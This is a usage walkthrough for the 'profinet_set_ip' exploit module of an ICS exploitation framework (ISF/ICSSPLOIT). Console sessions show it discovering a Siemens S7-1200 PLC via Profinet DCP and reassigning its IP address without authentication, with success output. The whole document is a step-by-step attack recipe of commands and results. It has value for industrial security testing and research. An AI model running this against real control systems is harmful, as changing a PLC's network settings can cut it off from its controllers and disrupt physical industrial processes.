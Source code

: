 # Profinet set ip

# Use Profinet set ip module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
    Version  : 0.1.0
    
    Exploits: 5 Scanners: 3 Creds: 13
    
    ICS Exploits:
        PLC: 5          ICS Switch: 0
        Software: 0
    
    isf >
    isf > search profinet
    exploits/plcs/siemens/profinet_set_ip
    scanners/profinet_dcp_scan
    isf > exploits/plcs/siemens/profinet_set_ip
    isf (profinet device ip setup) >

    
# Set options
    isf (profinet device ip setup) > show options
    Target options:
    
       Name       Current settings      Description
       ----       ----------------      -----------
       target     40:6c:8f:ff:ff:ff     Target mac address, e.g. 40:6c:8f:ff:ff:ff
    
    
    Module options:
    
       Name               Current settings     Description
       ----               ----------------     -----------
       timeout            3                    Timeout for response
       target_ip          192.168.1.100        IP Address to set
       nic                eth0                 Interface Name e.g eth0, en0
       target_gateway     0.0.0.0              Gateway to set
       target_netmask     255.255.255.0        Network mask to set
       verbose            0                    Scapy verbose level, 0 to 2
    
    # Because profient dcp is a ethernet protocol, we need setup which interface to send and recive profinet dpc packet.
    # Use set nic eth0 to define which interface we want to send and recive profinet dpc packet.
    isf (profinet device ip setup) > set nic eth0
    [+] {'nic': 'eth0'}
    
    # Setup target mac address
    isf (profinet device ip setup) > set target 00:1c:06:1d:ff:ff
    [+] {'target': '00:1c:06:1d:ff:ff'}
    
    # If you didn't know target mac address this time, you can use scan command to discover profinet devices.
    isf (profinet device ip setup) > scan
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.100  255.255.255.0  0.0.0.0
    
    # Setup ip address, netmask and gateway.
    isf (profinet device ip setup) > set target_ip 192.168.1.110
    [+] {'target_ip': '192.168.1.110'}
    isf (profinet device ip setup) > set target_netmask 255.255.255.0
    [+] {'target_netmask': '255.255.255.0'}
    # Set gateway to 0.0.0.0 mean target didn't have a gateway.
    isf (profinet device ip setup) > set target_gateway 0.0.0.0
    [+] {'target_gateway': '0.0.0.0'}

# Run module
    isf (profinet device ip setup) > run
    # run command will send a profinet dcp packet to check target current ip setting. 
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.100  255.255.255.0  0.0.0.0
    
    
    [*] Please make sure target device info is correct.
    [*] Do you want setup target with
     ip address: 192.168.1.110
     network mask: 255.255.255.0
     gateway:0.0.0.0
    
    Y/y to confirm, other to cancel.
    :y
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.110  255.255.255.0  0.0.0.0
    
    
    [+] Setup target ip succeed
    isf (profinet device ip setup) >
